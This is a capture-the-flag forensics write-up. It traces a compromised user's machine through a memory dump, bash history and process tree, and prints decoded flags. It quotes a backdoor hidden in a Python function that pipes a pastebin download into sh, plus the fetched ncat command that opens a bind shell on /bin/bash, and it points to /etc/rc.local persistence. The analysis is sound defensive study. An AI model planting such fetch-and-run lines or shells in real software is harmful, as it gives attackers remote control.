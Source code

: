*Ncat is a general-purpose command-line tool for reading, writing, redirecting, and encrypting data across a network.*

This give us the flag : shkCTF{2854:ncat:2020-05-07 14:56:54}
Submitting it, we can move forward

### Entry Point

> We do not understand how this process was launch.
> Take a look at what k3vin did to find out where is the backdoor.

Do you remember the bash history of the first task ? There was a git clone and execution of the downloaded code.
What if... ?
I did the same as k3vin, I downloaded the zip, unziped it... We have multiple python files. Reading everyone of them,
I found this in app/snapshot.py:

```
def generateSnapshot(sourcePath):
    print('Generating snapshot..')
    ;os.system('wget -O - https://pastebin.com/raw/nQwMKjtZ 2>/dev/null|sh')
    files = generateFileList(sourcePath)
```

Following this link...

```
$ curl https://pastebin.com/raw/nQwMKjtZ

### Congratz : c2hrQ1RGe3RoNHRfdzRzXzRfZHVtYl9iNGNrZDAwcl84NjAzM2MxOWUzZjM5MzE1YzAwZGNhfQo=
nohup ncat -lvp 12345 -4 -e /bin/bash > /dev/null 2>/dev/null &

$ echo "c2hrQ1RGe3RoNHRfdzRzXzRfZHVtYl9iNGNrZDAwcl84NjAzM2MxOWUzZjM5MzE1YzAwZGNhfQo=" | base64 -d
shkCTF{th4t_w4s_4_dumb_b4ckd00r_86033c19e3f39315c00dca}
```
Third flag !

### Compromised

> We do not understand. We changed the password of k3vin but it look's like someone can still access his account.
> Can you please find out how the hacker did ?

How could this be done ? Part of the answer is in the bash_history. What is this vim of /etc/rc.local ?

Looking on the internet, here is the usage of that file :

> The script /etc/rc. local is for use by the system administrator. It is traditionally executed after all the normal system services are started, at the end of the process of switching to a multiuser runlevel. You might use it to start a custom service

If we check the parent of the vim process, there is no more doubt.

```
$ volatility --profile=Linuxsharkyx64 -f dump.mem linux_pstree
Volatility Foundation Volatility Framework 2.6
Name                 Pid             Uid
systemd              1               -1
.systemd-journal     502
.lvmetad             519
.systemd-udevd       533
.gvfsd-metadata      2779            1000
.ncat                2854
..bash               2876
...python            2886
....bash             2887
.....vim             3196
```